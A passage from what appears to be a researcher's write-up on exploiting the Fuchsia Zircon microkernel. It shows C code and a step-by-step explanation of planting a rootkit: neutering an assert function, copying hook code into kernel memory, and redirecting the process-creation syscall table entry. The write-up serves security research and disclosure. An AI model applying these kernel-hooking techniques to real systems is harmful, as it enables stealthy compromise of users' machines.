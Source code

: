 
And now the most interesting part: the rootkit planting. The `pwn()` function copies the code of the hook from the exploit binary into the Zircon kernel code at the address of `assert_fail_msg()`.

```c
#define ZIRCON_ASSERT_FAIL_MSG 0xffffffff001012e0
#define HOOK_CODE_OFFSET 4
#define HOOK_CODE_SIZE 60

  char *hook_addr = (char *)ZIRCON_ASSERT_FAIL_MSG;
  hook_addr[0] = 0xc3; // ret to avoid assert
  hook_addr++;
  memcpy(hook_addr, (char *)process_create_hook + HOOK_CODE_OFFSET, HOOK_CODE_SIZE);
  hook_addr += HOOK_CODE_SIZE;
  const char *pwn_msg = "ROOTKIT HOOK: syscall 102 process_create()\n";
  strncpy(hook_addr, pwn_msg, strlen(pwn_msg) + 1);

#define SYSCALL_N_PROCESS_CREATE 102
#define SYSCALL_TABLE 0xffffffff003c49f8

  unsigned long *syscall_table_item = (unsigned long *)SYSCALL_TABLE;
  syscall_table_item[SYSCALL_N_PROCESS_CREATE] = (unsigned long)ZIRCON_ASSERT_FAIL_MSG + 1; // after ret

  return 42; // don't pass the type check in DownCastDispatcher
```

1. `hook_addr` is initialized with the address of the `assert_fail_msg()` kernel function.
2. The first byte of this function is overwritten with `0xc3`, which is the `ret` instruction. I do that to skip the Zircon crashes on assertions; now the assertion handling returns immediately.
3. The exploit copies the code of my rootkit hook for the `zx_process_create()` syscall to the kernelspace. I described `process_create_hook()` above.
4. The exploit copies the message string that I want to print on every `zx_process_create()` syscall. The hook will execute `mov $" XSTR(ZIRCON_ASSERT_FAIL_MSG + 1 + HOOK_CODE_SIZE) ",%rdi`, and the address of this string will get into `rdi`. Now you see why I added 1 byte to this address: it's for the additional `ret` instruction at the beginning of `assert_fail_msg()`.
5. The address of the hook `ZIRCON_ASSERT_FAIL_MSG + 1` is written to the syscall table, item number 102, which is for the `zx_process_create()` syscall handler.
6. Finally, the `pwn()` exploit function returns 42. As I mentioned, Zircon uses my fake vtable and executes this function instead of the `TimerDispatcher.get_type()` method. The original `get_type()` method of this kernel object returns 16 to pass the type check and proceed handling. And here I return 42 to fail this check and finish the `zx_timer_cancel()` system call, which hit use-after-free.

Ok, the rootkit is now planted into the Zircon microkernel of Fuchsia OS!

# Exploit demo

I implemented a similar rootkit hook for the `zx_process_exit()` syscall at the place of the `assert_fail()` kernel function. So the rootkit prints the messages to the kernel log upon process creation and exiting. See the exploit demo:

<div style="position:relative;padding-top:56.25%;">
  <iframe src="https://www.youtube.com/embed/JPg-VHuKQIQ" frameborder="0" allowfullscreen
    style="position:absolute;top:0;left:0;width:100%;height:100%;"></iframe>
</div>
<br/>


[0]: 0xffdffe64ffdffd24
[1]: 0xffdcb5a4ffe00454
[2]: 0xffdffea4ffdc7824
[3]: 0xffd604c4ffd519f4